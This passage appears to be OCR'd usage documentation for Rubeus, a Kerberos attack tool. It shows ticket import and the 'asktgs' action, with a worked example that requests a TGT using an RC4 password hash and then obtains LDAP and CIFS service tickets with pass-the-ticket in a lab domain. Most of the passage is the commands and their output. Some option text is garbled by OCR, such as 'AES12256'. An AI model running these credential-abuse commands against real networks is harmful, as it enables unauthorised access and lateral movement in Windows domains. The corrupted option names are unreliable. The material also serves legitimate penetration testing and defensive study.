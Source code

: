  doIFujCCBbagAwIBBaEDAgEWooIEvzCCBL...(snip)...

 [*] Action: Import Ticket
 [*] Target LUID: 0x3c4c241
 [+] Ticket successfully imported!

**Note that the /luid and /createnetonly parameters require elevation!**


### asktgs

The **asktgs** action will build/parse a raw TGS-REQ/TGS-REP service ticket request using the specified TGT `/ticket:X` supplied. This value can be a base64 encoding of a .kirbi file or the path to a .kirbi file on disk. If a `/dc` is not specified, the computer's current domain controller is extracted and used as the destination for the request traffic. The `/ptt` flag will "pass-the-ticket" and apply the resulting service ticket to the current logon session. One or more `/service:X` SPNs **must** be specified, comma separated.

The supported encryption types in the constructed TGS-REQ will be RC4_HMAC, AES128_CTS_HMAC_SHA1, and AES256_CTS_HMAC_SHA1. In this case, the highest mutually supported encryption will be used by the KDC to build the returned service ticket. If you want to force DES, RC4, or AES12256 keys, use `/enctype:[RC4|AES12AES256|DES]`.

Requesting a TGT for dfm.a and then using that ticket to request a service ticket for the "LDAP/primary.testlab.local" and "cifs/primary.testlab.local" SPNs:

 C:\Rubeus>Rubeus.exe asktgt /user:dfm.a /rc4:2b576acbe6bcfda7294d6bd18041b8fe

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.3.3

 [*] Action: Ask TGT

 [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
 [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
 [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
 [*] Connecting to 192.168.52.100:88
 [*] Sent 230 bytes
 [*] Received 1537 bytes
 [+] TGT request successful!
 [*] base64(ticket.kirbi):

 doIFmjCCBZagAwIBBaEDAgEWoo...(snip)...

 C:\Rubeus>Rubeus.exe asktgs /ticket:doIFmjCCBZagAwIBBaEDAgEWoo...(snip)... /service:LDAP/primary.testlab.local,cifs/primary.testlab.local /ptt

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/
